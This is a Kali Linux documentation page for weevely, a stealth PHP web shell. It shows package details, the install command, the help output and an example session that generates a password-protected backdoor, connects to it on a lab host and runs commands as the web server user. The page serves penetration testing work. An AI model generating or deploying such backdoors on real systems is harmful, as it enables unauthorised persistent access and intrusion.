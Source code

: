 ```yaml
---
Title: weevely
Homepage: https://github.com/epinna/weevely3/
Repository: https://salsa.debian.org/pkg-security-team/weevely
Architectures: all
Version: 4.0.1-2
Metapackages: kali-linux-default kali-linux-everything kali-linux-headless kali-linux-large kali-tools-post-exploitation kali-tools-web 
Icon: images/weevely-logo.svg
PackagesInfo: |
 ### weevely
 
  Weevely is a stealth PHP web shell that simulate telnet-like
  connection. It is an essential tool for web application post
  exploitation, and can be used as stealth backdoor or as a
  web shell to manage legit web accounts, even free hosted
  ones.
 
 **Installed size:** `889 KB`  
 **How to install:** `sudo apt install weevely`  
 
 {{< spoiler "Dependencies:" >}}
 * python3
 * python3-dateutil
 * python3-mako
 * python3-prettytable
 * python3-socks
 * python3-yaml
 {{< /spoiler >}}
 
 ##### weevely
 
 Weaponized web shell
 
 ```
 root@kali:~# weevely -h
 usage: weevely [-h] {terminal,session,generate} ...
 
 positional arguments:
   {terminal,session,generate}
     terminal            Run terminal or command on the target
     session             Recover an existing session
     generate            Generate new agent
 
 options:
   -h, --help            show this help message and exit
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## weevely Usage Example

Generate a PHP backdoor (`generate`) protected with the given password (`s3cr3t`).

```
root@kali:~# weevely generate s3cr3t
[generate.php] Backdoor file 'weevely.php' created with password 's3cr3t'
root@kali:~# weevely http://192.168.1.202/weevely.php s3cr3t
      ________                     __
     |  |  |  |----.----.-.--.----'  |--.--.
     |  |  |  | -__| -__| |  | -__|  |  |  |
     |________|____|____|___/|____|__|___  | v1.1
                                     |_____|
              Stealth tiny web shell

[+] Browse filesystem, execute commands or list available modules with ':help'
[+] Current session: 'sessions/192.168.1.202/weevely.session'

www-data@kali:/var/www $ uname
Linux
www-data@kali:/var/www $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
